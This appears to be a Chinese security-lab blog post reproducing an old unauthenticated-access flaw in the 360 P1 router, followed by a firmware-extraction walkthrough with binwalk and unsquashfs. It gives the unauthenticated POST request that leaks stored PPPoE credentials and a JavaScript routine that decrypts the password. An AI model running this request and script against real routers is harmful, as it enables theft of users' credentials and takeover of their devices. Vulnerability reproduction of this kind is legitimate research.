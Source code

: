 #  【漏洞复现】360路由器P1未授权访问漏洞复现

原创 G4br1el [ 暗魂攻防实验室 ](javascript:void\(0\);)

**暗魂攻防实验室** ![]()

微信号 anhunsec-red

功能介绍 专注于网络空间安全、红蓝攻防对抗、渗透测试等技术研究

____

___发表于_

收录于合集 #漏洞复现 11个

**点击蓝字**![]() **关注我们**

![]()

  

  
![]()  
![]() **微信搜一搜**![]() 暗魂攻防实验室

# 前言

闲来无事，6点多起来打扫房间时发现之前在闲鱼买的古老的360路由器P1，想着能不能getshell，只不过在网上只找到了未授权访问漏洞，所以先复现一下。360安全路由P1存在未授权访问漏洞（可读取密码）,不过这是很古老的漏洞了，需要刷回最老的固件才存在此漏洞，乌云漏洞编号：wooyun-2015-0143408。固件下载地址：http://luyou.dl.qihucdn.com/luyou/360POP-P1-V0.7.0.18.bin

这一系列cgi不需要登录即可访问

  *   *   *   *   *   *   *   * 

    
    
    javascript/router/wan_config_show.cgi，javascript/router/wan_config_set.cgi,javascript/router/log_get.cgi  
    其中：javascript/router/wan_config_show.cgi通过post可直接获取上网设置信息，包括ppoe用户名和密码。  
    javascript/router/wan_config_set.cgi提交post可以直接设置各种东西

# 漏洞复现

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /javascript/router/wan_config_show.cgi HTTP/1.1Host: 192.168.0.1Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: Qihoo_360_login=3a1cca690f360155cc7099d537513719Connection: closeContent-Length: 11  
    uiname=WAN1

![]()

通过POST提交参数，可以找到PPPOE的账号密码，账号是admin，密码是进行加密，密码的解密函数就是new_lib.js脚本中的函数getDAesString()

解密脚本：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    function getDAesString(str, keys) {  var ciphertext = str.substr(32, str.length - 32);  var lengthKeyObj = {};   if (keys) {      lengthKeyObj.rand_key = keys;  } else {      lengthKeyObj = get_rand_key(0, str, true);  }   if (!lengthKeyObj.rand_key) {      return str;  }  var key = CryptoJS.enc.Hex.parse(lengthKeyObj.rand_key);  var iv = CryptoJS.enc.Latin1.parse("360luyou@install");  var str16T64 = CryptoJS.enc.Hex.parse(ciphertext).toString(CryptoJS.enc.Base64);  var decrypted = CryptoJS.AES.decrypt(str16T64, key, {      iv: iv,      mode: CryptoJS.mode.CBC,      padding: CryptoJS.pad.Pkcs7  });  return decrypted.toString(CryptoJS.enc.Utf8);}  
    function test() {  var uiname = $("#common_uiname").val();   $.post("javascript/router/wan_config_show.cgi", { uiname: 'WAN1' }, function (data) {      var data = dataDeal(data);      wan_setup_data = data;       if (data && data.COMMON && data.COMMON.connect_type && data.PPPOE) {          wan_setup_data.PPPOE.pass = getDAesString(wan_setup_data.PPPOE.pass);      }      alert(wan_setup_data.PPPOE.pass);  });}

直接在浏览器F12控制台中输入解密脚本，然后通过test()调用，即可解密PPPOE的密码为1234567

![]()

  

# 固件提取

在IOTsec-Zone论坛上找到了固件提取的文章，进而可以进行代码审计。这里就尝试一下。

首先工具需要：firmware-mod-kit或者binwalk，binwalk是kali自带（最新版kali是需要下载的）

firmware-mod-kit工具的功能和binwalk工具的类似，其实firmware-mod-
kit工具在功能上有调用binwalk工具提供的功能以及其他的固件解包工具的整合

firmware-mod-kit工具安装(我记得kali好像已经有了)：

  *   *   *   *   * 

    
    
    apt-get install git build-essential zlib1g-dev liblzma-dev python3-magic  
    git clone https://github.com/mirror/firmware-mod-kit.gitcd firmware-mod-kit/src./configure && make

固件提取：

    
    
    binwalk -Me 360POP-P1-V0.7.0.18.bin --run-as=root

![]()

![]()

提取出来的文件名是_360POP-P1-V0.7.0.18.bin.extracted，效果是：

![]()

代码是在squashfs-root文件夹上，里面的web就是路由器后台管理的界面代码啦，可以进行代码审计等等

![]()

不过binwalk好像已经是提取出来了，如果是其他路由器，binwalk出来只有16D842.squashfs这种格式的文件，所以还需要进一步的用unsquashfs进行提取

  * 

    
    
    unsquashfs 16D842.squashfs

![]()

提取的效果也就是上面的squashfs-root文件夹

![]()

只有一个80端口开了，没有啥洞进入底层shell呢。。。。

  

  
  
![]() **联系微信客服** 扫码联系暗魂攻防实验室  
  

![]()

  

![]()  
![]()

●[【渗透测试】春秋云镜靶场-
Time](http://mp.weixin.qq.com/s?__biz=MzkyMjE1NzQ2MA==&mid=2247488410&idx=1&sn=6a828291c9321c62300b932a783c2255&chksm=c1f9fb61f68e72771ddc214356c2c8e15955f3e2570d7c60af8c15f40cabf83596936e2d3580&scene=21#wechat_redirect)

●[【渗透测试】春秋云镜靶场-
Tsclient](http://mp.weixin.qq.com/s?__biz=MzkyMjE1NzQ2MA==&mid=2247488337&idx=1&sn=96d4797024cb9442da1937cf6b5b135c&chksm=c1f9fbaaf68e72bcf160f8ec7cffcc08462b88253f01536e075583f4183632684f1c0a2e9d7c&scene=21#wechat_redirect)

●[【渗透测试】春秋云镜靶场-
Privilege](http://mp.weixin.qq.com/s?__biz=MzkyMjE1NzQ2MA==&mid=2247488285&idx=1&sn=42143ad6c3c4f6d276f2db305153746c&chksm=c1f9fbe6f68e72f090a44abe0467560e268a5c7e75d95ecfc569804ae04caf3109bd39c625f7&scene=21#wechat_redirect)

●[【渗透测试】春秋云镜靶场-
Initial](http://mp.weixin.qq.com/s?__biz=MzkyMjE1NzQ2MA==&mid=2247488245&idx=1&sn=ec0f9d000e1967c337d134b24a733df3&chksm=c1f9fa0ef68e7318e5820d137c1f8c0afd6880e4c9d01b0e1ef79c804d27adb460c8b7b30726&scene=21#wechat_redirect)

![]()![]()微信搜一搜![]()暗魂攻防实验室

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

